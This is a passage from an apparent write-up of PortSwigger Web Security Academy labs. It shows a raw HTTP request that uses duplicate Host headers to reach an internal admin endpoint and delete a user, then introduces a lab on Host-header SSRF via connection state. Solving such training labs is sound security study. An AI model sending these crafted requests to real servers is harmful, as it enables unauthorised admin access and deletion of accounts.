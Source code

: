 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /admin/delete HTTP/2
Host: 192.168.0.113
Host: 0a5100f104ffdc65c3832510004000cf.web-security-academy.net
...

username=carlos&csrf=IJTFhUceFHwKZHdbhX2eW0ayNuKksPhv
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/ae024675af938d2bbf0f937431d805e4.png)

We get a 302 redirection:

![img](media/8467dd4ff0a73caf3ede579416f3b36d.png)

Lab is solved:

![img](media/7246c8aaeea170189d60cda50783f54a.png)

Host validation bypass via connection state attack
==================================================

This lab is vulnerable to routing-based SSRF via the Host header. Although the
front-end server may initially appear to perform robust validation of the Host
header, it makes assumptions about all requests on a connection based on the
first request it receives.
